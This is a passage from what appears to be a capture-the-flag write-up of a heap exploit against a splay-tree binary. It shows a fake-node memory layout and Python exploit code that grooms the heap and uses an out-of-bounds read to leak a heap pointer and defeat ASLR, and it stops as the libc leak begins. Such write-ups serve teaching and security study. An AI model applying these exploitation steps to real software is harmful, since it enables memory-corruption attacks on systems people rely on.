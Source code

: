 ## Exploit
### Heap Leak
To defeat ASLR we need to leak some addresses. The first leak we need is a heap address. This will allow us to have more control over the fake node we are selecting. We achieve this with the Out-Of-Bounds Read (**OOBR**) we found before.

After a bit of experimentation, we were able to setup the heap to have this **fake node** we can index to (and doesn't crash on splay):
```
tree->nodes[node_idx]
    |
    v
0x555555758858: 0x0000000000000000  --> node->node_val
0x555555758860: 0x0000555555758718  --> node->node_val_2 (will be printed)
0x555555758868: 0x0000000000000000  --> node->unk_4
0x555555758870: 0x0000000000000006  --> node->unk_1
0x555555758878: 0x000000000001f791  --> node->node_i
0x555555758880: 0x0000000000000000  --> node->parent
0x555555758888: 0x0000000000000000  --> node->left
0x555555758890: 0x0000000000000000  --> node->right
0x555555758898: 0x0000000000000000  --> node->sz
```

As we have seen before `node->node_val_2` is printed, allowing us to leak an heap address and **de-randomize the heap**.

This is the code we wrote to accomplish it:
```python
    # ==========
    # Leak heap ptr
    # ==========
    log.info("Leaking a heap addr:")

    # This values were found by trial and error
    N = 16
    del_N = 10
    idx = 27

    # Create and delete nodes to setup the heap for our leak
    for _ in range(N):
        create_node(s)

    for k in range(del_N):
        del_node(s, k)

    # `select_node` is vulnerable to an OOBR
    # By selecting a fake 'node' in the heap, we get a heap pointer leak
    leak = int(select_node(s, idx))
```

### Libc Leak
Now that we know the address of the **heap**, we can place our own addresses of fake nodes instead of relying on the ones already there on the heap.
